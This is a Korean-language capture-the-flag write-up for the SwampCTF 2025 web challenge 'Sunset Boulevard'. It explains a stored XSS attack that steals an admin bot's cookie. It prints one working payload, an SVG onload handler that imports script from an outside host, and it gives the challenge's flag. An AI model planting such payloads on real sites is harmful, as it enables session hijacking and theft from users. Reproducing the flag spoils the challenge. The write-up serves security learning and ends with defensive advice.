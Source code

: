 # 🎭 SwampCTF 2025 Writeup - [Sunset Boulevard]

**Category:** [Web]  
**Points:** [100]  
**Tags:** `CTF`, `[Web]`, `swampctf`  

---

## 📚 Table of Contents
- [🔍 Recon](#-recon)
- [🎯 The Goal](#-the-goal)
- [💉 Exploit](#-exploit)
- [🍪 Info Leakage or Gain](#-info-leakage-or-gain)
- [👑 Accessing the Flag](#-accessing-the-flag)
- [🧠 Conclusion](#-conclusion)

---

## 🔍 Recon

![문제 웹](./Pasted%20image%2020250403002957.png)

- 팬들이 메시지를 작성할 수 있는 웹페이지 제공
- 관리자 페이지가 존재한다는 소문이 있음
- 힌트에 따르면 [`artoo.love`](https://artoo.love) 를 통한 공격 가능성 존재

---

## 🎯 The Goal

> 플래그를 얻기 위해 해야 할 주요 목표 정리

![문제 목표](./Pasted%20image%2020250403003017.png)

- [ ] Stored XSS 삽입
- [ ] 관리자 봇을 통한 스크립트 실행 유도
- [ ] 세션/쿠키 탈취 또는 플래그 출력

---

## 💉 Exploit

### 🛠️ Step 1. Stored XSS 시도

![xss 삽입](./Pasted%20image%2020250403003110.png)

- [`https://artoo.love`](https://artoo.love)에서 JS 페이로드 생성
- 삽입한 XSS 페이로드 예시:

```html
<svg onload="import('//popjs.dev/yOPcj')"></svg>
```

![xss 성공](./Pasted%20image%2020250403003153.png)

- 댓글란에 삽입하여 저장 → **Stored XSS** 성공

---

### 🛠️ Step 2. 쿠키 탈취

![봇 방문 대기](./Pasted%20image%2020250403003217.png)

![쿠키 탈취](./Pasted%20image%2020250403003242.png)

- 일정 시간 후 관리자 봇이 페이지 방문
- XSS 실행 → 쿠키 전송/세션 탈취  
👉 **flag 확인 성공**

---

#### 🧰 사용한 도구
- [x] [artoo.love](https://artoo.love)
- [x] JS 이벤트 삽입 (`svg`, `script` 등)

---

## 🍪 Info Leakage or Gain

- 관리자 세션 쿠키 또는 인증 토큰 탈취 가능
- 플래그가 쿠키 또는 응답값에 포함되어 있음

---

## 👑 Accessing the Flag

```txt
swampCTF{THIS_MUSICAL_WAS_REVOLUTIONARY_BUT_ALSO_KIND_OF_A_SNOOZE_FEST}
```

---

## 🧠 Conclusion

- Stored XSS는 여전히 심각한 위협이 될 수 있음
- 사용자 입력 필터링 및 Content Security Policy 설정이 매우 중요
- 관리자 봇이 입력값을 직접 렌더링하는 구조는 매우 위험
- 외부 스크립트를 참조하는 단순한 XSS 페이로드도 치명적일 수 있음

---

_📚 Writeup by [@ChaeYum1](https://github.com/ChaeYum1)_
